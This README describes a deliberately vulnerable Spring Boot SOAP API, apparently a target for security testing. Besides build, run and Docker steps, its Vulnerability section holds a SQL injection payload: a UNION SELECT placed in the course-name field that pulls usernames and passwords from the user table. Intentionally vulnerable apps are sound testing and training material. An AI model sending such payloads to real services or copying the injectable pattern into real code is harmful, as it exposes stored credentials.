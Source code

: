# Spring boot SOAP example 

Simple SOAP API using Spring Boot. Based on this [tutorial](https://howtodoinjava.com/spring/spring-boot/spring-boot-soap-webservice-example/).

Requires:
* Gradle (wrapper in source)

## Run

```
./gradlew run
```

View the WDSL at http://localhost:9000/ws/vulnsoap.wsdl and post requests to http://localhost:9000/ws.

Example of a valid request (with header "Content-Type:text/xml"):
```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

## Vulnerability

Example of a SQL injection request:

```
<s11:Envelope xmlns:s11='http://schemas.xmlsoap.org/soap/envelope/'>
  <s11:Body>
    <sch:GetCourseDetailsRequest xmlns:sch='http://www.stackhawk.com/vulnsoap'>
        <sch:name>history' union select id, username as name, password as description from user --</sch:name>
    </sch:GetCourseDetailsRequest>
  </s11:Body>
</s11:Envelope>
```

### Docker

```
# build install distribution
./gradlew installDist

# build image
docker build -t local/spring-boot-soap-example .

# run image
docker run -p 8080:8080 local/spring-boot-soap-example
```